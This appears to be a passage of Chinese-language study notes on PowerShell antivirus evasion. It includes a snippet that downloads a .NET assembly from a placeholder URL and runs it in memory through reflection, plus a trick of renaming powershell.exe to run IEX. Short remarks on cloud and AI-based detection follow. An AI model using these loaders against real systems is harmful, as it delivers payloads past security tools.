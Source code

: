 > 没感觉到具体用处, 放个 TODO

---

### 使用冷门方法实现

```powershell
$wm = New-Object System.Net.WebClient;
$base64 = $wm.DownloadData("xxx");
# 将下载的数据加载到内存中
$asm = [Reflection.Assembly]::Load($base64);
$asm.EntryPoint.Invoke($null,@());
```
- `.EntryPoint` 是 `System.Reflection.Assembly` 类的一个属性，它指向程序集中的入口点。对于.NET程序来说，这通常是Main方法, 是程序开始执行的地方。
- `.Invoke($null,@())`
  - `($null,@())` 是 `.Invoke` 方法的参数。这里有两个参数：
    - `$null`：表示Invoke方法被调用的对象。因为大多数.NET程序的入口点Main方法是静态的(即它不依赖于类的实例) ，所以这里使用$null。如果入口点是一个实例方法(非静态) ，这里将需要一个该类的实例。
    - `@()`：传递给Main方法的参数数组。在这个例子中，使用空数组@()，表示没有参数被传递。如果Main方法期望参数，它们将在这里提供。

---

### 拷贝重命名 powershell

> [Powershell免杀-CSDN博客](https://blog.csdn.net/qq_50854790/article/details/124705800)

```powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe bypass.txt
bypass.txt IEX(xxx)
```

> 现在基本上没什么用了

---

## 云基础分析

许多现代杀软使用云技术来提高恶意软件检测的能力

云服务器可以存储大量的病毒信息, 提供实时更新, 并允许快速对新出现的威胁做出反应

当程序出现可疑行为但是不足以确定是病毒木马时, 为了降低误报率, 提升用户体验, 杀软一般会放行, 然后将对应的可疑文件上传到服务器进行分析; 当一个用户设备遇到新型威胁时, 这个信息可以被快速共享给其他用户, 提升整个网络的安全水平

![7.png](http://cdn.ayusummer233.top/DailyNotes/202312280207848.jpeg)



---

## AI分析

杀软公司可以依托自己庞大的病毒样本库训练病毒查杀模型~

![8.png](http://cdn.ayusummer233.top/DailyNotes/202312280210569.jpeg)

---









